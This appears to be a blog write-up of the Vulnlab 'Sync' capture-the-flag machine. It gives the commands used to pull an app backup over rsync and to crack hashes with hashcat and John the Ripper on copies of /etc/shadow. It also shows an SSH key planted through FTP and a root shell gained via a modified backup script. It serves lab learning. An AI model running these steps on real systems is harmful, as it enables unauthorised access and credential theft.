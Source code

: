 +++
title = 'Vulnlab :: Sync Writeup'

image = 'cover.jpg'

date = 2025-01-15T12:02:13+01:00

draft = false

summary = 'Vulnlab :: Sync Writeup'

categories = ["vulnlab", "ctf", "misconfigurations"]

tags = ["exegol", "nmap", "linux", "ctf", "hashcat", "john-the-ripper", "pwncat-cs", "misconfigurations", "rsync", "php", "sqlite", "ftp", "ssh"]
+++

![pwned-sync](image-17.png)

## Enumeration

### Nmap Scan

I started with a standard scan using Nmap:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-02 18:11 CET
Nmap scan report for 10.10.95.205
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 5840f1968f678e470e7ee41c1128949c (ECDSA)
|_  256 4b59e4b26397e5142d4df8d8c913ca2c (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```


## Rsync

I noticed that the machine exposes an rsync service. I enumerated available modules:

```sh
rsync -av --list-only rsync://10.10.95.205/
```
![rsync](image.png)

I found a module named `httpd`:

```sh
rsync -av --list-only rsync://10.10.95.205/httpd
```

The rsync service contains an application backup. I downloaded it with:

```sh
rsync -av rsync://10.10.95.205/httpd ./httpd
```


## Application Analysis

### PHP

![index-php](image-1.png)

Reviewing the PHP code, I found a secret and the logic used to generate password hashes.

### Database

![db](image-2.png)

The database contains password hashes for two users.

### Hashcat

![hashes](image-3.png)

Using Hashcat, I managed to crack the password hash for the user `triss`.

![hascat modes](image-4.png)

![cracked](image-5.png)

## FTP

### FTP Access

SSH login is not possible with the cracked password, as key-based authentication is enforced. However, I was able to log in to the FTP server.

![ftp](image-7.png)

### SSH Key Upload

The FTP server's root directory is the home directory of the user `triss`, which allows me to upload my public SSH key.

![home](image-16.png)

```sh
cp ./.ssh/id_rsa.pub /workspace/
cat id_rsa.pub > authorized_keys
```

Now I can log in via SSH using my private key:

```sh
ssh triss@10.10.95.205 -i id_rsa
```


## Privilege Escalation

### User Flag

There is no user flag in `triss`'s home directory. However, due to a reference to "The Witcher" by Andrzej Sapkowski in the challenge, I guessed that the password for the user `jennifer` is the same as for `triss`. This allowed me to obtain the user flag.

### /backup Directory

After running LinPEAS, I discovered the `/backup` directory.

![backups](image-11.png)

### John the Ripper

I found backup copies of `/etc/passwd` and `/etc/shadow`. I used John the Ripper to crack the password for the user `sa`:

```sh
unshadow passwd shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=crypt
```

### backup.sh

I discovered a backup script owned by the user `sa`

![linpeas](image-14.png)

```sh
#!/bin/bash

mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

After modifying the script and executing it, I was able to escalate privileges and gain root access.

```sh
/bin/bash -p
```
